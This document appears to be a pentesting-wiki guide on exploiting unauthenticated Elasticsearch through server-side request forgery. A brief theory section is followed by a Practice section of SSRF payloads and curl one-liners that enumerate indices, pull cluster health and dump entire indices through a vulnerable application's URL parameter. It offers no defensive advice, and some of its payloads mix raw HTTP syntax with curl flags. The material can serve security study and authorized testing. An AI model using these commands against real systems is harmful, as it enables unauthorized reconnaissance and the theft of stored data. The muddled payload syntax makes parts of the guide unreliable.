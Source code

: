 ```yaml
---
title: Exploiting Elasticsearch via SSRF for Data Access
description: Learn how to exploit Elasticsearch's API through SSRF for data access
  and reconnaissance.
keywords:
- Elasticsearch
- SSRF
- server-side request forgery
- data extraction
- unauthenticated access
- REST API
- cluster health
- indices enumeration
---
```


# Elasticsearch

## Context

This guide focuses on exploiting unauthenticated Elasticsearch instances through Server-Side Request Forgery (SSRF) to perform reconnaissance and access data. Users should have a foundational understanding of HTTP protocol, REST API, JSON format, and SSRF techniques.

## Theory

### Elasticsearch HTTP Interface and SSRF Exposure

Elasticsearch offers a RESTful API over HTTP, typically accessible on port 9200. This interface can be exploited through SSRF if accessible from a vulnerable web server, allowing attackers to make HTTP requests to internal services. Unauthenticated Elasticsearch instances can permit unrestricted API access, making them vulnerable to unauthorized enumeration and data retrieval.

### Key Endpoints for Reconnaissance and Data Extraction

- **/_cat/indices**: This endpoint lists all indices present in the cluster, providing an overview of the data structure within Elasticsearch.
- **/_cluster/health**: This endpoint reveals information about the cluster's status and its nodes, including details such as the number of nodes and shard health.
- **/_search**: This endpoint allows querying within indices, facilitating data extraction from these indices as per specific queries.

### Security Misconfigurations and Threat Surface

Elasticsearch installations, particularly default ones, may lack proper authentication, exposing sensitive data to SSRF attackers. Many organizations assume internal services are shielded from external attacks; however, SSRF exploits can sever this assumed protection, making internal data vulnerable.

## Practice

### Enumerate Elasticsearch Indices via SSRF

By crafting an SSRF payload, attackers can query the /_cat/indices endpoint to gather information about all indices in the cluster.

- **Payload**:
    ```http
    GET http://localhost:9200/_cat/indices?v
    ```
    This payload is designed to be sent to the Elasticsearch HTTP interface locally via a SSRF vulnerability in another application.

- **Command**:
    ```bash
    curl -s -X GET 'http://<vulnerable-app>/ssrf?url=http://localhost:9200/_cat/indices?v'
    ```
    Execute this command to exploit the SSRF vulnerability and retrieve a list of indices from Elasticsearch.

**Outcome**: The list of indices present in the Elasticsearch instance, offering potential targets for further data extraction.

### Obtain Cluster Health Information via SSRF

Attackers can target the /_cluster/health endpoint to obtain critical information about the cluster's health and node configuration.

- **Payload**:
    ```http
    GET http://localhost:9200/_cluster/health
    ```
    This payload retrieves status-related information about the Elasticsearch cluster.

- **Command**:
    ```bash
    curl -s -X GET 'http://<vulnerable-app>/ssrf?url=http://localhost:9200/_cluster/health'
    ```
    This command sends the SSRF request to check the health of the Elasticsearch cluster.

**Outcome**: Information such as node count, cluster health, and status is obtained, aiding in further strategic exploitation.

### Extract Data from an Index via SSRF

Using the /_search endpoint, attackers can query and extract data from specific indices in Elasticsearch via SSRF.

- **Payload**:
    ```http
    POST http://localhost:9200/<index>/_search -d '{"query":{"match_all":{}}}' -H 'Content-Type: application/json'
    ```
    Replace `<index>` with the specific index name to query all documents.

- **Command**:
    ```bash
    curl -s -X POST 'http://<vulnerable-app>/ssrf?url=http://localhost:9200/<index>/_search' -H 'Content-Type: application/json' -d '{"query":{"match_all":{}}}'
    ```
    Utilize this command to execute an SSRF attack aiming to extract data from the chosen index.

**Outcome**: The attacker successfully retrieves documents from the specified Elasticsearch index, gaining potential access to sensitive information.

## Tools

- **curl**
